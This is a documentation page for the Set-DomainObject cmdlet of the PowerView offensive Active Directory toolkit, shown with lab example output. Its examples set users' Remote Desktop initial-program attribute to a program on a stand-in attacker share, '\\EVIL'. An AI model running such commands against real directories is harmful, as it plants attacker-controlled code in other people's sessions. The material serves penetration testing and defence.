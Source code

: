 # Set-DomainObject

## SYNOPSIS
Modifies a gven property for a specified active directory object.

Author: Will Schroeder (@harmj0y)  
License: BSD 3-Clause  
Required Dependencies: Get-DomainObject

## SYNTAX

```
Set-DomainObject [[-Identity] <String[]>] [-Set <Hashtable>] [-XOR <Hashtable>] [-Clear <String[]>]
 [-Domain <String>] [-LDAPFilter <String>] [-SearchBase <String>] [-Server <String>] [-SearchScope <String>]
 [-ResultPageSize <Int32>] [-ServerTimeLimit <Int32>] [-SecurityMasks <String>] [-Tombstone]
 [-Credential <PSCredential>]
```

## DESCRIPTION
Splats user/object targeting parameters to Get-DomainObject, returning the raw
searchresult object.
Retrieves the raw directoryentry for the object, and sets
any values from -Set @{}, XORs any values from -XOR @{}, and clears any values
from -Clear @().

## EXAMPLES

### -------------------------- EXAMPLE 1 --------------------------
```
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose
```

VERBOSE: Get-DomainSearcher search string: LDAP://PRIMARY.testlab.local/DC=testlab,DC=local
VERBOSE: Get-DomainObject filter string: (&(|(samAccountName=testuser)))
VERBOSE: Setting mstsinitialprogram to \\\\EVIL\program.exe for object testuser

### -------------------------- EXAMPLE 2 --------------------------
```
"S-1-5-21-890171859-3433809279-3366196753-1108","testuser" | Set-DomainObject -Set @{'countrycode'=1234; 'mstsinitialprogram'='\\EVIL\program2.exe'} -Verbose
```

VERBOSE: Get-DomainSearcher search string: LDAP://PRIMARY.testlab.local/DC=testlab,DC=local
VERBOSE: Get-DomainObject filter string:
(&(|(objectsid=S-1-5-21-890171859-3433809279-3366196753-1108)))
VERBOSE: Setting mstsinitialprogram to \\\\EVIL\program2.exe for object harmj0y
VERBOSE: Setting countrycode to 1234 for object harmj0y
VERBOSE: Get-DomainSearcher search string:
LDAP://PRIMARY.testlab.local/DC=testlab,DC=local
VERBOSE: Get-DomainObject filter string: (&(|(samAccountName=testuser)))
VERBOSE: Setting mstsinitialprogram to \\\\EVIL\program2.exe for object testuser
VERBOSE: Setting countrycode to 1234 for object testuser
